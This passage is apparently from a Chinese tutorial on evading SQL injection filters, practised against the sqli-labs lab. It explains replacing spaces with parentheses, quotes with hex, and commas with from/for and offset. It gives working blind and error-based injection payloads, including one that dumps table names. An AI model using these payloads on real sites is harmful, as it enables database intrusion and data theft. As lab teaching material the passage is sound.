  ![image-20210725103650668](images/3.png)

除此之外,用括号也可以绕过空格过滤,但是仅包含计算出来的语句

在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

也可以用反引号进行绕过,和括号使用方法一样

例如

```
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
?id=' and select(user())from test where(1=1)and(2=2)
```

 例如sqli-labs26就是用括号来绕过空格的

```
payload:
http://127.0.0.1/sqli-labs/Less-26/?id=1'oorr(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())),0x7e)))aandnd'1'='1
```

##  利用16进制绕过引号过滤

在where语句中经常是要用到引号的

例如

```
select column_name  from information_schema.tables where table_name="users"
```

当引号被过滤后就不能这样使用了,但是我们可以将users转化为16进制进行绕过

users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：

```sql
select column_name  from information_schema.tables where table_name=0x7573657273
```

 information_schema的16进制为696e666f726d6174696f6e5f736368656d61

![image-20210725110248696](images/4.png)

##  逗号过滤

例如substr,mid,limit等诸多函数,与逗号的使用密不可分

substr和mid的逗号过滤了可以用from for代替,并且from for用使用括号来绕过空格上面利用括号绕过空格过滤已经演示了

![image-20210725112906301](images/5.png)

 ![image-20210725113155422](images/6.png)

limit的都逗号被过滤了可以使用offset进行绕过

![image-20210725113334027](images/7.png)
